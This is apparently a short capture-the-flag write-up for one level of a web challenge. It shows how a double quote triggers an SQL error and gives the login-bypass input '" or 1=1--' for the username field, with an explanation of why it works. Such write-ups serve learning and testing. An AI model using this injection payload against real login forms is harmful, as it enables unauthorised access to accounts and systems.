 #### Level 5

URL: http://vg.no/ctf/level5-regexp/

Smells SQL injection here. Lets try to get some errors. 

We get this error if we Write " in the username input field:

`SQL error while executing query: SELECT * FROM users WHERE username = """ AND password = "eff23d564c0ce4edc44699b9cbcbb002"`

Lets alter the query so it looks like this:
`SQL error while executing query: SELECT * FROM users WHERE username = "" OR 1=1 --" AND password = "b27a009c31be9b9505564fa15206495c"`

1=1 will always be true and the "--" makes everything that comes after it a comment.

Just write `" or 1=1--` in the username input field.
